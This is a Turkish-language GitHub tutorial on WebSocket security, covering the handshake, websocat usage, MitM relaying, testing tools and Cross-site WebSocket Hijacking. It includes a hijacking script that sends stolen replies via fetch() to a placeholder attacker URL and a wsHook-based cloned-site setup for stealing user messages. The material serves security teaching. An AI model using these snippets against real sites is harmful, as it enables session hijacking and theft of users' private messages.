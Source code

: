 # WebSockets Nedir?

WebSockets, genellikle uzun ömürlü olan ve tipik olarak HTTP üzerinden başlatılan bağlantılardır. İletişim her iki yönde de herhangi bir zamanda gerçekleşebilir ve genellikle bağlantı, istemci veya sunucunun bir mesaj göndermeye hazır olduğu ana kadar açık ve boşta kalır. WebSockets, düşük gecikme veya sunucu başlatmalı mesajlar gibi durumlarda kullanışlıdır, örneğin finansal verilerin gerçek zamanlı akışları.

## Neler öğreneceğiz?

- WebSockets Nedir?
- WebSockets Bağlantısı Nasıl Kurulur?
- Linux Konsolu ile WebSocket Bağlantısı Kurma
- WebSocket Bağlantılarını Man-in-the-Middle (MitM) Yapma
- WebSocket Enumerasyonu ve Güvenlik Analizi
- WebSockets Hata Ayıklama Araçları ve İpuçları
- Cross-site WebSocket Hijacking (CSWSH) Tehdidi ve Savunma
- Kullanıcıdan Veri Çalmak İçin WebSocket Saldırıları


## WebSockets Bağlantısı Nasıl Kurulur?

WebSockets bağlantıları genellikle şu şekilde, istemci tarafında JavaScript kullanılarak oluşturulur:

```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```

"**wss**" protokolü, şifreli bir TLS bağlantısı üzerinden WebSocket'i kurar; "**ws**" protokolü ise şifrelenmemiş bir bağlantı kullanır. Bağlantıyı kurmak için tarayıcı ve sunucu, bir HTTP üzerinden WebSocket el sıkışması gerçekleştirir. Tarayıcı, şu şekilde bir WebSocket el sıkışması isteği gönderir:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Eğer sunucu bağlantıyı kabul ederse, şu şekilde bir WebSocket el sıkışması yanıtı döner:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

Bu noktadan sonra ağ bağlantısı açık kalır ve her iki yönde WebSocket mesajları göndermek için kullanılabilir.

## Notlar
WebSocket el sıkışması mesajlarının bazı özellikleri şunlardır:
- İstek ve yanıtın **Connection** ve **Upgrade** başlıkları, bu el sıkışmasının bir WebSocket el sıkışması olduğunu belirtir.
- **Sec-WebSocket-Version** istek başlığı, istemcinin kullanmak istediği WebSocket protokol sürümünü belirtir. Genellikle 13'tür.
- **Sec-WebSocket-Key** istek başlığı, Base64 ile kodlanmış rasgele bir değeri içerir. Bu değer, her el sıkışma isteğinde rasgele olarak oluşturulmalıdır.
- **Sec-WebSocket-Accept** yanıt başlığı, **Sec-WebSocket-Key** istek başlığındaki değerin, protokol spesifikasyonunda tanımlı belirli bir dize ile birleştirilmiş bir karma değeridir. Bu, yanıltıcı yanıtları önlemek için yapılır.
- **Sec-WebSocket-Key** başlığı, önbellek proxy'lerinden kaynaklanan hataları önlemek için kullanılır ve kimlik doğrulama veya oturum yönetimi amacıyla kullanılmaz (Bir CSRF belirteci değildir).

## WebSockets Bağlantısı (Linux)

websocat kullanarak bir WebSocket ile doğrudan bağlantı kurabilirsiniz:

```bash
websocat --insecure wss://10.10.10.10:8000 -v
```

Veya bir websocat sunucusu oluşturmak için:

```bash
websocat -s 0.0.0.0:8000 # Port 8000'de dinle
```

## WebSocket Bağlantılarında Man-in-the-Middle (MitM) Saldırısı

Eğer istemcilerin mevcut yerel ağınızdan bir HTTP WebSocket'ine bağlandığını fark ederseniz, bir ARP Spoofing Saldırısı kullanarak bir MitM saldırısı yapabilirsiniz. İstemci bağlanmaya çalıştığında şunları kullanabilirsiniz:

```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```

## WebSocket Enumerasyonu

[STEWS](https://github.com/PalindromeLabs/STEWS) aracını kullanarak WebSocket'leri otomatik olarak keşfetmek, parmak izlemek ve bilinen güvenlik açıklarını aramak için kullanabilirsiniz.

## WebSocket Hata Ayıklama Araçları

[Burp Suite](https://portswigger.net/burp) web soket iletişimini normal HTTP iletişiminde olduğu gibi MitM destekler.

[Socketsleuth](https://github.com/summitt/Burp-Suite-SocketSleuth) Burp Suite uzantısı, Websocket iletişimlerini daha iyi yönetmenizi sağlar. Geçmişi alabilir, interception kuralları belirleyebilir, eşleştirme ve değiştirme kurallarını kullanabilir, Intruder ve AutoRepeater kullanabilirsiniz.

[WSSiP](https://github.com/PentesterES/WSSiP) (WebSocket/Socket.io Proxy) adlı bu Node.js aracı, istemci ve sunucu arasındaki tüm WebSocket ve Socket.IO iletişimlerini yakalamak, durdurmak, özel mesajlar göndermek ve görüntülemek için bir kullanıcı arayüzü sağlar.

[wsrepl](https://github.com/hypoweb/wsrepl) interaktif bir WebSocket REPL'dir ve özellikle penetrasyon testi için tasarlanmıştır. Gelen WebSocket mesajlarını gözlemlemek ve yeni mesajlar göndermek için bir arayüz sağlar, bu iletişimi otomatikleştirmek için kullanımı kolay bir çerçeve sunar.

[WebSocketKing](https://websocketking.com/) bir web aracıdır ve web soketleri kullanarak diğer web siteleriyle iletişim kurmanıza olanak tanır.

[Hoppscotch](https://hoppscotch.io/realtime/websocket) WebSocket ve diğer iletişim/protokoller için bir web aracı sağlar.

## Cross-site WebSocket Hijacking (CSWSH)

Ayrıca "**cross-origin WebSocket hijacking**" veya "**cross-origin WebSocket hijacking**" olarak da bilinen bu saldırı, WebSocket el sıkışmasında Cross-Site Request Forgery (CSRF) kullanır. Bu, WebSocket el sıkışma isteğinin yalnızca HTTP çerezlerine güvenmesi ve CSRF belirteçleri veya diğer tahmin edilemez değerleri içermemesi durumunda ortaya çıkar.

### Basit Saldırı

Unutmayın ki bir WebSocket bağlantısı kurulduğunda cookie sunucuya gönderilir. Sunucu, örneğin bir mesajla "READY" ifadesi gönderildiğinde kullanıcıya ait bir konuşma geçmişini geri gönderiyorsa, basit bir XSS bağlantısı kurarak (cookie otomatik olarak gönderilecektir) "READY" mesajını göndererek konuşma geçmişini çalabilirsiniz:

```html
<script>
websocket = new WebSocket('wss://websoket-urlsi')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); // Gizli bilgileri almak için mesaj gönder
}

function handleReply(event) {
  // Gizli bilgileri saldırganın sunucusuna gönder
  fetch('https://kendi-makine-urlniz/?'+event.data, {mode: 'no-cors'})
}
</script>
```

## Kullanıcıdan Veri Çalmak

Hedeflenen web uygulamasını taklit etmek için (.html dosyaları gibi) siteyi kopyalayın ve WebSocket iletişiminin gerçekleştiği script içine aşağıdaki kodu ekleyin:

```html
<script src='wsHook.js'></script>

<script>
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}

wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
</script>
```

Şimdi [wsHook.js](https://github.com/skepticfx/wshook) dosyasını indirin ve web dosyalarının bulunduğu klasörün içine kaydedin.
Web uygulamasını açığa çıkararak ve bir kullanıcının ona bağlanmasını sağlayarak websocket aracılığıyla gönderilen ve alınan mesajları çalabileceksiniz:
```bash
sudo python3 -m http.server 80
```

# Yasal Uyarı!
Bu GitHub deposu, WebSocket teknolojisi üzerinde yapılan saldırılarla ilgili bilgiler içermektedir. Bu bilgiler, siber güvenlik alanındaki profesyoneller ve etik hackerlar için eğitim amaçlı sağlanmaktadır.

**Dikkat:** Bu depo içinde bulunan bilgiler, yalnızca eğitim amaçlıdır ve kötü niyetli kullanım amacı taşımaz. WebSocket saldırıları gerçekleştirilirken yasal düzenlemelere, etik kurallara ve hedef sistemlere izin almadan müdahale etmek yasa dışıdır. Bu depo tarafından sağlanan bilgilerin kötü niyetli kullanımı, yasalar gereğince cezalandırılabilir.
